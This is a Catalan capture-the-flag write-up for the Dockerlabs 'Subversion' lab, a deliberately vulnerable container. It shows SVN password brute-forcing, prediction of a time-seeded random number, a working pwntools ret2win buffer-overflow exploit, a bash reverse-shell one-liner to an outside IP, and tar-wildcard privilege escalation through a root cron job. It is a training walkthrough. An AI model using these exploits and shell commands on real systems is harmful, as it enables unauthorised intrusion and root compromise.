







Aquest laboratori, disponible a la plataforma Dockerlabs, cobreix múltiples desafiaments de seguretat: des de la força bruta en Subversion i l'endevinació d'un número aleatori insegur, fins a l'explotació d'un buffer overflow i l'escalada de privilegis amb la tècnica de comodins de tar.

## Taula de continguts 

## Enumeració

### Nmap

```bash
$ nmap -p- -Pn -n -T4 -oN allPorts 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-16 01:39 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
1789/tcp open  hello
3690/tcp open  svn
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
```


```bash
$ nmap -p80,1789,3690 -sVC -Pn -T4 -oN info_ports 172.17.0.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-16 01:39 CET
Nmap scan report for 172.17.0.2
Host is up (0.000021s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Subversi\xC3\xB3n
|_http-server-header: nginx/1.18.0 (Ubuntu)
1789/tcp open  landesk-rc LANDesk remote management
3690/tcp open  svnserve   Subversion
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.56 seconds

```

### Puerto 80 (HTTP)

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x js,php,bd,zip,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,php,bd,zip,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 200) [Size: 163]
Progress: 149609 / 1323360 (11.31%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 154847 / 1323360 (11.70%)
===============================================================
Finished
===============================================================
```

A la ruta del port 80 podem veure en el navegador:



La ruta `/upload` és un fitxer de text amb el següent contingut:

```bash
$ curl http://172.17.0.2/upload                                        
¡Por aquí no es! ¿No viste al conejo? Iba con un mosquete y una boina revolucionaria... 
Pero con svnuser quizá puedas hacer algo en el repositorio subversion. 
```

Queda bastant clar que això és un rabbit hole, però hem obtingut un nom d'usuari `svnuser` i un nom de repositori `subversion`.

### Port 1789

Sembla ser una aplicació feta a mida que fa preguntes sobre "Subversions" de la història.
Si encertes totes les preguntes al final et demana un número aleatori:

```bash
$ nc 172.17.0.2 1789
Bienvenido a subversion!
Pregunta 1: ¿En qué año ocurrió la Revolución Francesa?
Respuesta: 1789
Pregunta 2: ¿Cuál fue el nombre del movimiento liderado por Mahatma Gandhi en la India?
Respuesta: no violencia
Pregunta 3: ¿Qué evento histórico tuvo lugar en Berlín en 1989?
Respuesta: caida del muro
Pregunta 4: ¿Cómo se llama el documento firmado en 1215 que limitó los poderes del rey de Inglaterra?
Respuesta: carta magna
Pregunta 5: ¿Cuál fue el levantamiento liderado por Nelson Mandela contra el apartheid?
Respuesta: lucha contra el apartheid 
Pregunta extra: Adivina el número secreto para continuar (entre 0 y 9999999):
Respuesta: 11
Respuesta incorrecta. No puedes continuar.
```

Intentem buffer-overflow però no "sembla" ser vulnerable.

### Puerto 3690 (SVN)

```bash
$ nc -vn 172.17.0.2 3690                                    
(UNKNOWN) [172.17.0.2] 3690 (svn) open
( success ( 2 2 ( ) ( edit-pipeline svndiff1 accepts-svndiff2 absent-entries commit-revprops depth log-revprops atomic-revprops partial-replay inherited-props ephemeral-txnprops file-revs-reverse list ) ) )

$ svn ls svn://172.17.0.2
svn: E170013: Unable to connect to a repository at URL 'svn://172.17.0.2'
svn: E210005: No repository found in 'svn://172.17.0.2'

$ svn ls svn://172.17.0.2/subversion
Reino de autentificación: <svn://172.17.0.2:3690> 50f8afbc-4def-4427-9391-50d90a83567b
Clave de 'kali':
```

Bé, vam descobrir un repositori però és privat, intentem utilitzar l'usuari que vam trobar a `/upload`.

Intentem iniciar sessió amb un usuari diferent `test` i amb `svnuser`.



Podem observar que l'usuari `svnuser` sembla que pertany a aquest servei, tot i que pel nom ja ho imaginàvem.

## Força bruta SVN

Nmap té un script per realitzar força bruta en serveis SVN.

https://nmap.org/nsedoc/scripts/svn-brute.html

Creem una llista d'usuaris i contrasenyes amb el format que necessita l'script a partir de `rockyou.txt` utilitzant `sed`.

```bash
$ sed 's/^/svnuser\//' /usr/share/wordlists/rockyou.txt > svnuser_rockyou.txt

$ head svnuser_rockyou.txt                             
svnuser/123456
svnuser/12345
svnuser/123456789
svnuser/password
svnuser/iloveyou
svnuser/princess
svnuser/1234567
svnuser/rockyou
svnuser/12345678
svnuser/abc123
```

Executem `nmap` amb la nostra llista de credencials i trobem les de l'usuari `svnuser`.

```bash
$ nmap --script svn-brute --script-args svn-brute.repo=/subversion/,brute.credfile=./svnuser_rockyou.txt -p 3690 172.17.0.2 --min-rate 5000 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).

PORT     STATE SERVICE
3690/tcp open  svn
| svn-brute: 
|   Accounts: 
|     svnuser:iloveyou! - Valid credentials
|_  Statistics: Performed 995 guesses in 46 seconds, average tps: 21.8

Nmap done: 1 IP address (1 host up) scanned in 49.63 seconds
```

## Repositori SVN  

Ara podem llistar i descarregar el repositori.

```bash
$ svn ls svn://172.17.0.2/subversion --username=svnuser --password=iloveyou!
subversion
subversion.c
```

Hi ha dos fitxers, un binari i el que sembla el seu codi font en C. Clonem el repositori de SVN.

```bash
$ svn checkout svn://172.17.0.2/subversion --username=svnuser --password=iloveyou! subversion_report
A    subversion_report/subversion
A    subversion_report/subversion.c
Revisión obtenida: 1
$ cd subversion_report/
$ ls -a
.  ..  subversion  subversion.c  .svn
```

Trobem un binari `subversion` que és el mateix programa que vam trobar al port 1789.

```
$ ./subversion 
Bienvenido a subversion!
Pregunta 1: ¿En qué año ocurrió la Revolución Francesa?
Respuesta: 1789
Pregunta 2: ¿Cuál fue el nombre del movimiento liderado por Mahatma Gandhi en la India?
Respuesta: test
Respuesta incorrecta. No puedes continuar.
```

I el fitxer `subversion.c`, que sembla ser la programació del mateix programa.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
#include <ctype.h>

void ask_questions();
void magic_text();
void normalize_input(char *str);

int main() {
    // Desactiva el buffering en stdout
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Bienvenido a subversion!\n");
    ask_questions();
    return 0;
}

void ask_questions() {
    char answer[256];
    int random_number;
    char number_str[5];

    // Semilla para el generador de números aleatorios basada en un XOR del tiempo y el numero 69
    srand(time(NULL) ^ 69);

    // Generar un número aleatorio entre 0 y 9999999
    random_number = rand() % 10000000;

    // Pregunta 1
    printf("Pregunta 1: ¿En qué año ocurrió la Revolución Francesa?\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);
    if (strcmp(answer, "1789") != 0) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    // Pregunta 2
    printf("Pregunta 2: ¿Cuál fue el nombre del movimiento liderado por Mahatma Gandhi en la India?\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);
    if (strcmp(answer, "satyagraha") != 0 && strcmp(answer, "noviolencia") != 0) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    // Pregunta 3
    printf("Pregunta 3: ¿Qué evento histórico tuvo lugar en Berlín en 1989?\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);
    if (strcmp(answer, "caidadelmurodeberlin") != 0 && strcmp(answer, "caidadelmuro") != 0) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    // Pregunta 4
    printf("Pregunta 4: ¿Cómo se llama el documento firmado en 1215 que limitó los poderes del rey de Inglaterra?\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);
    if (strcmp(answer, "cartamagna") != 0) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    // Pregunta 5
    printf("Pregunta 5: ¿Cuál fue el levantamiento liderado por Nelson Mandela contra el apartheid?\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);
    if (strcmp(answer, "luchacontraelapartheid") != 0 && strcmp(answer, "movimientoantiapartheid") != 0) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    // Pregunta aleatoria
    printf("Pregunta extra: Adivina el número secreto para continuar (entre 0 y 9999999):\n");
    printf("Respuesta: ");
    fgets(answer, sizeof(answer), stdin);
    normalize_input(answer);

    // Convertir la respuesta del usuario a entero
    int user_guess = atoi(answer);

    if (user_guess != random_number) {
        printf("Respuesta incorrecta. No puedes continuar.\n");
        return;
    }

    printf("¡Felicitaciones! Has adivinado el número secreto.\n");
    magic_text();
}

void magic_text() {
    char buffer[64];
    printf("Introduce tu \"mágico\" texto para continuar: ");
    gets(buffer); 
    printf("Has introducido: %s\n", buffer);
}


void normalize_input(char *str) {
    char *src = str;
    char *dst = str;
    while (*src) {
        if (*src == '\n' || *src == '\r') {
            src++;
            continue;
        }
        if (isspace((unsigned char)*src)) {
            src++;
            continue;
        }
        // Convertir a minúsculas y eliminar acentos
        unsigned char c = (unsigned char)*src;
        if (c >= 'A' && c <= 'Z') {
            c = c + ('a' - 'A');
        }
        // Eliminar caracteres especiales (acentos)
        if (c == 0xE1 || c == 0xC1) c = 'a';
        else if (c == 0xE9 || c == 0xC9) c = 'e';
        else if (c == 0xED || c == 0xCD) c = 'i';
        else if (c == 0xF3 || c == 0xD3) c = 'o';
        else if (c == 0xFA || c == 0xDA) c = 'u';
        else if (c == 0xF1 || c == 0xD1) c = 'n';

        *dst++ = c;
        src++;
    }
    *dst = '\0';
}

void shell() {
    system("/bin/bash");
}
```

Coses importants que observem en la programació:  

1. El número aleatori a endevinar no és segur, la llavor es basa en el temps i es genera a l'inici del programa.

```c
    // Semilla para el generador de números aleatorios basada en un XOR del tiempo y el numero 69
    srand(time(NULL) ^ 69);

    // Generar un número aleatorio entre 0 y 9999999
    random_number = rand() % 10000000;

```

2. L'última pregunta de la funció `magin_text`, que es crida després d'encertar el número aleatori, sembla ser vulnerable a un buffer overflow. Ho comprovarem més endavant.

```c
void magic_text() {
    char buffer[64];
    printf("Introduce tu \"mágico\" texto para continuar: ");
    gets(buffer); 
    printf("Has introducido: %s\n", buffer);
}
```

3. Hi ha una funció en el codi que mai s'utilitza, `shell()`, que a més executa una shell en `bash`.

```c
void shell() {
    system("/bin/bash");
}
```

## Intrusió  

### Endevinar número aleatori  

Per endevinar el número aleatori, primer hem de saber quina versió de la biblioteca `libc` s'està utilitzant per generar-lo.

```bash
$ ldd subversion
        linux-vdso.so.1 (0x00007fa3e2c8e000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa3e2a74000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa3e2c90000)
```

Carrega la biblioteca `libc.so.6` de manera dinàmica, però com que és un Docker, al final carrega la mateixa biblioteca del sistema amfitrió.  

La llavor del número aleatori es genera mitjançant els segons transcorreguts des de l'època Unix `time()` (epoch), és a dir, el nombre de segons des del 1 de gener de 1970 (UTC). Aquest nombre es combina amb 69 mitjançant una operació XOR. El resultat és la llavor utilitzada per generar el número aleatori.

```c
    // Semilla para el generador de números aleatorios basada en un XOR del tiempo y el numero 69
    srand(time(NULL) ^ 69);

    // Generar un número aleatorio entre 0 y 9999999
    random_number = rand() % 10000000;
```

Si aconseguim utilitzar la mateixa biblioteca per generar el número aleatori i introduïm la mateixa llavor en el mateix segon, podrem endevinar el número aleatori.  

Preparem un script Python per facilitar-ho tot, respondre correctament a les preguntes i endevinar el número aleatori.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
c_srand(seed)
random_number = c_rand() % 10000000

def responde():
    # Lista de respuestas
    respuestas = [
        b"1789",
        b"No violencia",
        b"Caida del Muro",
        b"Carta Magna",
        b"Lucha contra el apartheid"
    ]
    # Recorremos la lista de respuestas
    for resp in respuestas:
        # Esperamos hasta recibir "Respuesta:"
        p.recvuntil(b"Respuesta:")
        # Enviamos la respuesta
        p.sendline(resp)

# Enviamos número aleatorio
def aleatorio():
    p.recvuntil(b"Respuesta:")
    p.sendline(bytes(str(random_number), 'ascii'))

if __name__ == '__main__':
    responde()
    aleatorio()
    p.interactive()
```

Aconseguim endevinar el número aleatori i entrar a la funció `magic_text()`, on trobem que hi ha un buffer overflow.  

  

### Buffer overflow  

Com que ens ha funcionat, donem per fet que el binari també serà vulnerable a buffer overflow. Comprovem la seva seguretat mitjançant `checksec.sh` (https://www.trapkit.de/tools/checksec/checksec.sh).

```bash
$ checksec --file ./subversion
[*] '/home/kali/CTFs/dockerlabs/subversion/exploit/subversion'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

El binari no té protecció NX, no té activada la protecció STACK CANARY ni PIE. Segons el comandament `string` i estant en el mateix repositori del servidor, entenem que és la mateixa programació en C.

```bash
$ file subversion 
subversion: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=97afd68e56c74ef54022ce3c413dcff8fe8bac2f, for GNU/Linux 3.2.0, not stripped
```

A més, veiem que el fitxer és un executable de 64 bits.  

Com que utilitzem un contenidor Docker, aquest obté la seguretat ASLR de l'amfitrió. Comprovem la seguretat del nostre Kali i la desactivem.

```bash
$ cat /proc/sys/kernel/randomize_va_space
2
```

Segun el número de `/proc/sys/kernel/randomize_va_space`:
- **0** significa ASLR desactivado.
- **1** significa ASLR parcial.
- **2** significa ASLR completo (valor por defecto en la mayoría de distribuciones).

El desactivem:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

I comprovem que està desactivat:

```bash
$ cat /proc/sys/kernel/randomize_va_space
0
```

Intentarem fer un `ret2win` cridant la funció "fantasma" `shell()`, per la qual cosa necessitarem l'adreça de memòria d'aquesta funció. Utilitzem `gdb` per obtenir-la.


```bash
$ gdb -q subversion
```



Obtenim l'adreça del registre `rdi` just abans de cridar `system` i la anotem.  

```bash
0x00000000004017b4 <+8>:     lea    0xba0(%rip),%rdi        # 0x40235b
```

Ara necessitem obtenir l'offset que hem d'omplir per arribar a desbordar i afegir l'adreça del registre `rdi` que ens interessa.  

Com vam veure en la programació, la resposta de l'usuari s'emmagatzema en una variable `char buffer[64];`. En general, cada `char` s'emmagatzema en un byte, per la qual cosa són 64 bytes, però com que estem en un sistema de 64 bits, hi afegirem 8 bytes més.  

Afegim una altra funció al nostre exploit per intentar cridar la funció `shell()` i obtenir una consola bash.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
c_srand(seed)
random_number = c_rand() % 10000000

def responde():
    # Lista de respuestas
    respuestas = [
        b"1789",
        b"No violencia",
        b"Caida del Muro",
        b"Carta Magna",
        b"Lucha contra el apartheid"
    ]
    # Recorremos la lista de respuestas
    for resp in respuestas:
        # Esperamos hasta recibir "Respuesta:"
        p.recvuntil(b"Respuesta:")
        # Enviamos la respuesta
        p.sendline(resp)

# Enviamos número aleatorio
def aleatorio():
    p.recvuntil(b"Respuesta:")
    p.sendline(bytes(str(random_number), 'ascii'))

def overflow():
    funcion = p64(0x00000000004017b4)
    offset = 64+8 
    buffer = b"A"*offset
    payload = buffer + funcion
    p.recvuntil("Introduce tu \"mágico\" texto para continuar:".encode('utf-8'))
    p.sendline(payload)


if __name__ == '__main__':
    responde()
    aleatorio()
    overflow()
    p.interactive()
```

L'executem i obtenim una shell en el nostre propi sistema, funcionant com esperàvem.  

  

Ara modifiquem les primeres línies de l'exploit per, en comptes d'executar el binari `subversion` descarregat, fer-ho contra el port `1789`.  

```python
binario = './subversion'
# p = process(binario)
p = remote('172.17.0.2', '1789')
```

Tornem a executar l'exploit i obtenim una shell amb l'usuari `luigi` en el servidor.  

  

## Escalada de Privilegis  

Per treballar amb més comoditat en el servidor, ens creem una altra shell i fem el tractament de la tty.  

  

```
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"
```

Trobem una tasca programada que s'executa cada minut per l'usuari root.

```bash
luigi@22ae1bc1f511:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/backup.sh

luigi@22ae1bc1f511:/$ cat /usr/local/bin/backup.sh
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *

luigi@22ae1bc1f511:/$ ls -la /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 91 Dec 27 23:11 /usr/local/bin/backup.sh
```

No tenim permisos d'escriptura sobre el fitxer de la tasca programada, però podem aprofitar aquesta tasca per fer un **TAR Wildcard**, ja que sí que tenim permisos a la carpeta `/home/luigi`.

```bash
luigi@22ae1bc1f511:/home/luigi$ echo "cp /usr/bin/bash /tmp/b && chmod +s /tmp/b" > cpbash.sh
luigi@22ae1bc1f511:/home/luigi$ chmod +x cpbash.sh 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint=1' 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint-action=exec=sh cpbash.sh'
luigi@22ae1bc1f511:/home/luigi$ ls -la
total 32
-rw-r--r-- 1 luigi root     0 Feb  2 01:15 '--checkpoint-action=exec=sh cpbash.sh'
-rw-r--r-- 1 luigi root     0 Feb  2 01:14 '--checkpoint=1'
drwxr-xr-x 1 luigi luigi 4096 Feb  2 01:15  .
drwxr-xr-x 1 root  root  4096 Dec 27 23:11  ..
-rw-r--r-- 1 luigi luigi  220 Feb 25  2020  .bash_logout
-rw-r--r-- 1 luigi luigi 3771 Feb 25  2020  .bashrc
-rw-r--r-- 1 luigi luigi  807 Feb 25  2020  .profile
-rwxr-xr-x 1 luigi root    43 Feb  2 01:14  cpbash.sh
drwxr-xr-x 3 luigi luigi 4096 Dec 27 23:11  subversion
```

Esperem un minut i obtenim una bash amb **SUID**. La utilitzem i elevem privilegis a **root**.  

```bash
luigi@22ae1bc1f511:/home/luigi$ ls -la /tmp/b
-rwsr-sr-x 1 root root 1183448 Feb  2 01:17 /tmp/b
luigi@22ae1bc1f511:/home/luigi$ /tmp/b -p
b-5.0# id
uid=1000(luigi) gid=0(root) euid=0(root) groups=0(root)
b-5.0# 
```

**Laboratori finalitzat, espero que us hagi agradat o que hàgiu après alguna cosa.**
